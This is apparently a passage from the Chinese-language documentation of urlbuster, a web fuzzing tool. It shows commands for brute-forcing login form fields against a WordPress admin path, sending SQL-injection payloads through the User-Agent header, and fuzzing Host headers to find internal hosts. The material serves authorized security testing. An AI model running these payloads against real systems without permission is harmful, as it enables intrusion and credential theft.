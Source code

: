 *   **暴力强制变异后的帖子请求**

```
$ urlbuster \
  -w index.php \
  --code 200 301 302 \
  --method POST \
  --mpayload \
    'user=somename1' \
    'user=somename2' \
    'user=somename3' \
    'pass=somepass1' \
    'pass=somepass2' \
    'pass=somepass3' \
    'mail=some@mail1.tld' \
    'mail=some@mail2.tld' \
    'mail=some@mail3.tld' \
    'submit=yes' \
  http://www.domain.tld/wp-admin/
```

*   **用户代理 SQL 注入**

```
$ urlbuster \
  -W /path/to/wordlist.txt \
  --code 5.. \
  --method GET POST \
  --mheader \
    "User-Agent: ;" \
    "User-Agent: ' or \"" \
    "User-Agent: -- or #" \
    "User-Agent: ' OR '1" \
    "User-Agent: ' OR 1 -- -" \
    "User-Agent: \" OR 1 = 1 -- -" \
    "User-Agent: '='" \
    "User-Agent: 'LIKE'" \
    "User-Agent: '=0--+" \
    "User-Agent:  OR 1=1" \
    "User-Agent: ' OR 'x'='x" \
    "User-Agent: ' AND id IS NULL; --" \
  http://www.domain.tld/
```

*   **寻找潜在的损失**

```
$ urlbuster \
  -w / \
  --method GET POST \
  --mheader \
    "Host: internal1.lan" \
    "Host: internal2.lan" \
    "Host: internal3.lan" \
    "Host: internal4.lan" \
    "Host: internal5.lan" \
    "Host: internal6.lan" \
  http://10.0.0.1
```
